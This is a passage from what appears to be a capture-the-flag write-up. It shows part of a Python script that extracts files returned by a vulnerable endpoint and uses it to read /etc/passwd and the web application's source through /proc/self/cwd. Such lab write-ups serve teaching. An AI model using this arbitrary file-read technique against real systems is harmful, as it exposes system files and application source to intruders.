 ```

with zipfile.ZipFile(BytesIO(resp.content)) as zip_file:
    file_path_in_zip = zip_file.namelist()[0]
    with zip_file.open(file_path_in_zip) as file:
        contents = file.read()

if outfile:
    with open(outfile, 'wb') as f:
        f.write(contents)
    print(f"Results written to {outfile}")
else:
    print(contents.decode())

```

#### General Filesystem Enumeration

According to the `passwd` file, the box has six users with shells set:

```
oxdf@hacky$ python read_file.py /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
lpelt:x:1003:1004::/home/lpelt:/bin/bash
cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash

```

The website can be accessed with `/proc/self`:

```
oxdf@hacky$ python read_file.py /proc/self/cwd/index.html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta content="width=device-width, initial-scale=1.0" name="viewport">
  ...[snip]...

```

`/download` doesn’t work, nor with `index.php`, but `/download.php` does:

```
oxdf@hacky$ python read_file.py /proc/self/cwd/download/
File not found: /proc/self/cwd/download/
oxdf@hacky$ python read_file.py /proc/self/cwd/download/index.php
File not found: /proc/self/cwd/download/index.php
oxdf@hacky$ python read_file.py /proc/self/cwd/download.php
<?php
...[snip]...

```
